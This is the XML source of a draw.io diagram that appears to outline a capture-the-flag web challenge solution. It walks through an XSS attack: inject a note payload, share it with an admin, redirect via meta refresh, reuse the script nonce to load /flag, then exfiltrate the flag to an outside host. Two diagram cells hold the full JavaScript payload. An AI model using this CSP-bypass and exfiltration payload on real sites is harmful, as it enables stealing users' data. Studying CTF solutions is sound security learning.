

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="2134" dy="1209" grid="1" gridSize="13" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="3300" pageHeight="2339" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="JJzvr27p6mKngN86fw9k-2" value="&lt;font style=&quot;font-size: 18px&quot;&gt;OUR SERVER&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;strokeColor=#00FF00;fontStyle=1" parent="1" vertex="1">
      <mxGeometry x="1391" y="835" width="221" height="99" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-1" value="DOCUMENT.BODY.STYLE=&amp;nbsp;&lt;font color=&quot;#00ffff&quot;&gt;`color:red`;}var oldsc=document.currentScript.nonce;var sc =document.createElement(`script`);sc.nonce=oldsc;sc.src=`/flag?var=flag`;document.querySelector(`html`).appendChild(sc);setTimeout(function(){document.location=`https://ctf.warriordev.com/ctfserver/ref?flag=${flag}`},100);{//&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;strokeColor=#CC0000;" vertex="1" parent="1">
      <mxGeometry x="741" y="1118" width="442" height="247" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-2" value="&lt;span style=&quot;font-size: 18px&quot;&gt;NOTE/48ab..&lt;/span&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="871" y="1144" width="143" height="26" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-9" value="&lt;font style=&quot;font-size: 18px&quot;&gt;&lt;b&gt;ADMIN&lt;/b&gt;&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;strokeColor=#CCCC00;" vertex="1" parent="1">
      <mxGeometry x="1079" y="1560" width="221" height="156" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-12" value="&lt;font style=&quot;font-size: 18px&quot;&gt;&lt;b&gt;PAYLOAD&lt;/b&gt;&lt;/font&gt;" style="ellipse;whiteSpace=wrap;html=1;fontColor=#000000;strokeColor=#00FFFF;" vertex="1" parent="1">
      <mxGeometry x="1872" y="858" width="195" height="130" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-16" value="" style="endArrow=classic;html=1;fontColor=#000000;strokeColor=#00FFFF;jumpSize=6;strokeWidth=3;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0.583;entryY=0.007;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" source="FRGizQ8gNw0kwgFSInE0-12" target="FRGizQ8gNw0kwgFSInE0-5">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1924" y="858" as="sourcePoint" />
        <mxPoint x="1768" y="1118" as="targetPoint" />
        <Array as="points">
          <mxPoint x="1742" y="923" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-22" value="" style="html=1;verticalLabelPosition=bottom;align=center;labelBackgroundColor=#ffffff;verticalAlign=top;strokeWidth=2;shadow=0;dashed=0;shape=mxgraph.ios7.icons.flag;fontColor=#000000;strokeColor=#470047;" vertex="1" parent="1">
      <mxGeometry x="1053" y="819" width="169" height="143" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-23" value="&lt;b&gt;&amp;lt;SCRIPT SRC = /FLAG?VAR=FLAG&amp;gt;&lt;/b&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="1053" y="845" width="156" height="26" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-24" value="&lt;font style=&quot;font-size: 14px&quot;&gt;1.INSERT PAYLOAD&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="1690" y="897" width="221" height="26" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-27" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;strokeColor=#1434FF;" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1674" y="1313" as="sourcePoint" />
        <mxPoint x="1300" y="1661" as="targetPoint" />
        <Array as="points">
          <mxPoint x="1674" y="1661" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-28" value="&lt;font style=&quot;font-size: 14px&quot;&gt;2.SHARE WITH ADMIN&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="1430" y="1612" width="117" height="39" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-30" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;strokeColor=#CCCC00;" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1077" y="1638" as="sourcePoint" />
        <mxPoint x="852" y="1365" as="targetPoint" />
        <Array as="points">
          <mxPoint x="852" y="1638" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-31" value="&lt;font style=&quot;font-size: 14px&quot;&gt;3.ADMIN GETS REDIRECTED (META REFRESH)&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;fillColor=#ffffff;strokeColor=#00FFFF;" vertex="1" parent="1">
      <mxGeometry x="871" y="1534" width="156" height="91" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-32" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#CCCC00;" edge="1" parent="1" target="FRGizQ8gNw0kwgFSInE0-23">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="832" y="1116" as="sourcePoint" />
        <mxPoint x="987" y="845" as="targetPoint" />
        <Array as="points">
          <mxPoint x="832" y="858" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-5" value="IMG.SRC = '&lt;font color=&quot;#00ffff&quot;&gt;&amp;lt;/script&amp;gt;&amp;lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=http://yayacc.zajebistyc.tf/note/48ab77af-f06d-48d5-a6d2-fba6ddcc8227?theme=`color:red`&amp;gt;;}var oldsc=document.currentScript.nonce;var sc =document.createElement(`script`);sc.nonce=oldsc;sc.src=`/flag?var=flag`;document.querySelector(`html`).appendChild(sc);setTimeout(function(){document.location=`https://ctf.warriordev.com/ctfserver/ref?flag=${flag}`},100);{&lt;/font&gt;'" style="rounded=0;whiteSpace=wrap;html=1;strokeColor=#1434FF;" vertex="1" parent="1">
      <mxGeometry x="1456" y="1124.5" width="494" height="214.5" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-37" value="" style="endArrow=none;dashed=1;html=1;strokeWidth=2;fontColor=#000000;entryX=0;entryY=0.456;entryDx=0;entryDy=0;entryPerimeter=0;strokeColor=#00FFFF;" edge="1" parent="1" source="FRGizQ8gNw0kwgFSInE0-31" target="FRGizQ8gNw0kwgFSInE0-5">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1262" y="1313" as="sourcePoint" />
        <mxPoint x="1247" y="806" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-39" value="&lt;font style=&quot;font-size: 14px&quot;&gt;4. ADMIN IS AUTHORIZED TO READ THE FLAG&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="845" y="819" width="182" height="39" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-41" value="" style="endArrow=classic;html=1;strokeWidth=3;fontColor=#000000;exitX=0.695;exitY=0.537;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0.469;entryY=0.998;entryDx=0;entryDy=0;entryPerimeter=0;strokeColor=#470047;" edge="1" parent="1" source="FRGizQ8gNw0kwgFSInE0-22" target="JJzvr27p6mKngN86fw9k-2">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1625" y="1103" as="sourcePoint" />
        <mxPoint x="1675" y="1053" as="targetPoint" />
        <Array as="points">
          <mxPoint x="1172" y="1014" />
          <mxPoint x="1495" y="1014" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-42" value="&lt;font style=&quot;font-size: 14px&quot;&gt;5.DOCUMENT.LOCATION MAKING GET REQUEST WITH FLAG AS A QUERY&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;strokeColor=#00FFFF;strokeWidth=2;" vertex="1" parent="1">
      <mxGeometry x="1248" y="1027" width="169" height="52" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-43" value="" style="endArrow=none;dashed=1;html=1;strokeWidth=2;fontColor=#000000;exitX=-0.008;exitY=0.151;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0.538;entryY=1;entryDx=0;entryDy=0;entryPerimeter=0;strokeColor=#00FFFF;" edge="1" parent="1" source="FRGizQ8gNw0kwgFSInE0-5" target="FRGizQ8gNw0kwgFSInE0-42">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="1324" y="1222" as="sourcePoint" />
        <mxPoint x="1324" y="1074.5" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-45" value="&lt;span style=&quot;font-size: 18px ; font-weight: 700&quot;&gt;NOTE/344&lt;/span&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;dashed=1;fontColor=#000000;rotation=0;" vertex="1" parent="1">
      <mxGeometry x="1644.5" y="1144" width="117" height="20" as="geometry" />
    </mxCell>
    <mxCell id="FRGizQ8gNw0kwgFSInE0-46" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jumpSize=6;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#00FFFF;strokeWidth=2;fontColor=#000000;" edge="1" parent="1" source="FRGizQ8gNw0kwgFSInE0-9" target="FRGizQ8gNw0kwgFSInE0-9">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>